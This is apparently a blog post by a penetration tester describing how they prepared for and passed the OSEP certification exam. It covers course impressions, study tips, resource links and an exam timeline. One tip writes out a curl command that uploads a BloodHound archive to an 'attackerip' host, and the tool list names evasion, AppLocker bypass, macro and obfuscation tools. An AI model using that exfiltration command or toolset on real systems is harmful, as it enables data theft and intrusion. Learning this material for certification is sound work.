

I recently passed the OSEP exam on the first attempt achiving both independent requirements to pass: >=100 points and the `secret.txt` flag. 

I wanted to solidify my internal pentesting skillz, since I'm more confortable with web hacking. So it was a nice opportunity to learn and test myself in a challenging environment. 

Here I will share my experience preparing and pwning the exam. 

**Spoiler**: there will be no *spoilers* here. It's just my personal experience without anything that isn’t already public.

### os-what?
The [Offensive Security Experienced Pentester (OSEP)](https://www.offsec.com/courses/pen-300/) from OffSec is probably the most advanced active directory penetration testing cert along with the [Certified Active Directory Pentesting Expert (CAPE)](https://academy.hackthebox.com/preview/certifications/htb-certified-active-directory-pentesting-expert) from HackTheBox[^1]. 

[PEN-300: Advanced Penetration Testing (PEN-300)](https://www.offsec.com/courses/pen-300/) is the course behind the OSEP certification and covers a wide range of internal penetration testing skills and techniques, including:

* develop client-side attack techniques using Microsoft Office and other common applications, including building a reliable attack vector
* master antivirus evasion methods and tools
* bypass application whitelisting mechanisms like AppLocker
* implement advanced lateral movement strategies in Windows and Linux environments
* conduct sophisticated Active Directory exploitation and attacks to uncover hidden vulnerabilities
* evade network detection systems, including IDS and IPS
* perform advanced exploitation of Microsoft SQL and Active Directory
* use advanced programming concepts and Win32 APIs for attack development

### the course
Overall, the course is pretty well put together. The content is easy to follow and goes in depth. Some sections are not strictly required to do the exam, but it's super helpful to know what's under the hood.

Fun fact: I managed to [escalate a sqli to a rce](/escalating-preauth-sqli-to-rce) in a real engagement. So only for that, this cert was worth it. 

#### stuff I liked
- network section was accurate and I've seen that in real scenarios.
- the demonstration of why and how the default obfuscantion meterpreter gets flagged is quite good.
- challenges attack paths review the course material quite organically. 
- adcs certificates section has now new been included.
- section about phishing via ics calendar invites was pretty interesting. 

#### stuff I didn't \*love\*
- post-exploitation is too crazy: once you are admin you have too much freedom. i.e. disable Defender and/or firewall rules once admin. I've heard in CRTO you cannot do that.
- few OPSEC refs/considerations. ie. psexec usage, `net user`, etc.
- some bypasses are too naive: these process hollowing by itself is blocked by Crowdstrike or any other competent EDR. Although evasion is a very exigent field and you need to update constantly. This course provides a decent baseline.
- phishing is mostly VBA macros and HTA. Both techniques are a bit outdated (for instance, macros disabled by default) and easy to detect for any competent SOC. 

### reqs
imho, the following skills matter:
- ad hacking: being familiar witht he concepts and common techniques. 
- programming background: nothing crazy, but being confortable with c# and powershell is a must.
- ctf experience: it is a must. I fyou don't have some background doing boxes you will struggle.
- windows internals: nothing crazy, but knowing win api, process structure, etc.

### prep
I preped for 1.5 months, and this was my strategy:
1. reviewed external content listed in [references](#references).
2. watched a selection of the course videos at 2x speed. Just the topics I didn't know about.
3. actively read the book: highlighted important stuff and taking notes of useful commands.
4. watched ippsec OSEP machines list.
5. did first 5 challenges. thoroughly: investingating all possible attack paths. ie. dropper vs loader.
6. re-reviewed my challenge solutions and I force myself to understand all concepts behind the commands: if you run into a rabbit hole and you treat everything as a blackbox, thats the recipe for disaster.

### r4nd0m tips
- you can compile with msc to avoid visual studio. I basically manage to compile everything with mono and didn't touch windows lab machine! 
- change the name of the artifacts because they don't necessarily overwrite![^2]
- updog is god. you can host files but also exfiltrate like: `curl.exe http://attackerip/upload -F "file=@C:\Windows\tasks\20260415044445_BloodHound.zip" -F "path=./"`. You can also use it instead of smb to connect to your windows lab machine[^3].
- migrate your revshells for stability.
- get confortable with network pivoting. 
- become best friends with your C2 of choice. I personally reviewed [metasploit unleashed](https://www.offsec.com/metasploit-unleashed/) guide.
- read the exam guide and the exam objectives. For instance, AI chatbots, paid tools or automated exploitation are not allowed. 
- imho, the challenges prepare you _enough_ to face the exam. Although I've heard RastaLabs and Offshore are a good prep. It does not hurt.
- have a plan z: there are too many variables involved, so if something fails, you need to have a backup plan.
- take good notes before and \*during\* the exam. There is a lot of machines and forest and you can get lost/overwhelmed easily.

### resources
I came across a ton of resources. Here's a curated list of the most useful ones.

OSEP specific resources sorted by subjective usefulness:
- [https://www.emmanuelsolis.com/osep.html](https://www.emmanuelsolis.com/osep.html)
- [https://github.com/OoStellarnightoO/OSEP_Notes](https://github.com/OoStellarnightoO/OSEP_Notes)
- [https://0x4rt3mis.github.io/posts/OSEP-Cheat-Sheet/](https://0x4rt3mis.github.io/posts/OSEP-Cheat-Sheet/)
- [https://github.com/darkness215/osep-tools/](https://github.com/darkness215/osep-tools/)
- [https://github.com/beauknowstech/OSEP-Everything](https://github.com/beauknowstech/OSEP-Everything) 

Important: beaware that some of these commands and scripts are now flagged, since the OSEP environment gets updated overtime, so don't be cocky and test everything before trying luck in the exam.

Related offtopic resources:
- [ippsec writeups](https://ippsec.rocks)
- [GOAD pwning series by mayfly277](https://mayfly277.github.io/posts/GOADv2/)
- [TCM AD section of the PEH course](https://tcm-sec.com/academy/practical-ethical-hacking/)[^4]. 
- [Orange cyberdefense ad cheatsheet](https://orange-cyberdefense.github.io/ocd-mindmaps/img/mindmap_ad_dark_classic_2025.03.excalidraw.svg)

Not required but interesting, a book on EDR evasion techniques by not strach press:
(img)

### my gig
Here was my arsenal of tools. Note that I've omitted the most obvious ones like mimikatz or secretsdump[^5]:
- tools:
    - external recon: [autorecon](https://github.com/AutoRecon/AutoRecon)
    - c2: keep calm and use meterpreter (with custom C# loaders aligned with book's content)
    - clm: [bypass-clm](https://github.com/calebstewart/bypass-clm)
    - obfuscation: [InvisibilityCloak](https://github.com/h4wkst3r/InvisibilityCloak) and [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-obfuscation)
    - vba macros: [BadAssMacros](https://github.com/Inf0secRabbit/BadAssMacros)
    - file sharing: [updog](https://github.com/sc0tfree/updog). It has file upload functionality too!
    - ad enum: [powerview](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) and [adpeas](https://github.com/61106960/adPEAS)
    - hta: [Dotnet2JScript](https://github.com/tyranid/dotnettojscript) loading the js as external file
    - privesc: [peas-ng suite](https://github.com/peass-ng/PEASS-ng/tree/master) and [powerup](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1). But honestly I did everything manual.
    - revshell: [penelope](https://github.com/brightio/penelope)
    - compiler: [mono](https://www.mono-project.com/) downloading missing dll dependencies from [nuget.org](https://nuget.org)
- misc:
    - virtualization: [kali on qemu on debian](/kali-on-qemu-on-debian)
    - reporting: [sysreptor](https://docs.sysreptor.com/offsec-reporting-with-sysreptor/).
    - note taking: [obsidian](https://obsidian.md/)
    - terminal: [terminator](https://gnome-terminator.org/)
    - rdp client: [remmina](https://remmina.org/)
    - browser extension: [Bye Bye, Google AI: Turn off Google AI Overviews, Discussions and Ads](https://chromewebstore.google.com/detail/bye-bye-google-ai-turn-of/imllolhfajlbkpheaapjocclpppchggc?pli=1)

### exam

I grabbed a monster[^6] and started the exam at 01:00 AM, since my kids are asleep.
I promised myself to \*not\* going to sleep until I get confortable with the progress.

After 6 hours I had 40 points. I was feeling confident so I went for a quick nap.

I woke up at 10:00 AM. Then I did a lot of progress. It's not everything linear and the effort don't always translate to flags. People always stress that if you are blocked, don't force it and take a walk. But I thing the opposite is also true: if you are on a roll, don't stop digging.

Then I hit a wall after the 6th flag. So I took a walk to lower my cortisol levels. My strategy was to tryharding until day two, and if no luck, move to the second path and get more flags. 

It was quite frustrating since I had clear what I wanted to do, but somehow didn't work. Finally I catched it: I missed a little syntax detail.

So after 23h I went to sleep with 9 flags in my pocket: I just needed one more. I woke up at 09:00 AM. Then I pulled `secret.txt` at 10:35 AM. That allowed me I met both independent criteria to pass: >=100 points and the secret.txt.

### wh00t wh00t

Two days after the exam I received the beloved email. I passed!

[^1]: generalizying here, there are others like CRTO, CARTE, CRTL, etc. there is no a 1-to-1 comparison since each one focus on a different angle: evasion, c2, etc.
[^2]: Wasted hours because of this, kek.
[^3]: somehow slow AF.
[^4]: I did already purchased it when doing the PNPT cert a while ago.
[^5]: duh.
[^6]: not sponsored.
